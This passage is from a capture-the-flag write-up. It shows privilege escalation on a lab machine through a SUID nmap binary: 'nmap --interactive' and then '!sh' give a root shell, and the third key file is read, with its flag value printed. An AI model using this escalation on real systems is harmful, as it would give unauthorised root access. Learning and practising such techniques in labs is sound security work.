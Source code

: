 ```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

We have [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) here, strange.
### GTFObins

We can search for nmap on [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) :

![Pasted image 20250728140630.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250728140630.png)

We go to /usr/local/bin and do that (b) to retrieve the **==third key==** :

```bash
robot@ip-10-10-53-252:/usr/local/bin$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-10-53-252:/usr/local/bin# whoami
root
root@ip-10-10-53-252:/usr/local/bin# cat /root/key-3-of-3.txt 
04787ddef27c3dee1ee161b21670b4e4
root@ip-10-10-53-252:~# cat hacked
'You have been hacked by mdn0x'
```

Pwned.
